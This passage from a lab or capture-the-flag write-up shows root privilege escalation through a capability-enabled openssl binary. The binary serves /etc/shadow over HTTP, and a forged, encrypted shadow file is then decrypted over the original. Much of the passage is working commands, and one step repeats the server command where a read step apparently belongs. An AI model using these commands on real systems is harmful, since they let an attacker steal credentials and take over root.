 First it was created a self-signed `key.pem` and `cert.pem`:

```texinfo
openssl req -x509 -newkey rsa:2048 -keyout /tmp/key.pem -out /tmp/cert.pem -days 365 -nodes
```

Using them it was set up an HTTP server on port 1337:

```texinfo
~/openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP
```

In parallel in another terminal, it was tried to read the contents of `/etc/shadow` by using the endpoint created above:

```texinfo
cd /
/home/ldapuser1/openssl s_server -key /tmp/key.pem -cert /tmp/cert.pem -port 1337 -HTTP
```

Getting a success on it:

![poc shadow](../lightweight/screenshots/shadow.png)

The custom password for root was generated by running:

```texinfo
openssl passwd -6 -salt xyz pelota123
```

A custom `shadow` was created under `/tmp`, replacing the original password of root with the one generated above.
The custom `/tmp/shadow` was encrypted by executing:

```texinfo
cd /home/ldapuser1
openssl smime -encrypt -aes256 -in /tmp/shadow -binary -outform DER -out /tmp/shadow.enc /tmp/cert.pem
```

Later, the custom `/tmp/shadow` was decrypted overwriting the original `/etc/shadow`:

```texinfo
cd /
/home/ldapuser1/openssl smime -decrypt -in /tmp/shadow.enc -inform DER -inkey /tmp/key.pem -out /etc/shadow
```

**Proof Screenshot Here:** 

![root.txt](../lightweight/screenshots/root-proof.png)

**root.txt Contents:**

```texinfo
f1d4****************************
```

### System IP: 172.16.116.132

#### Service Enumeration
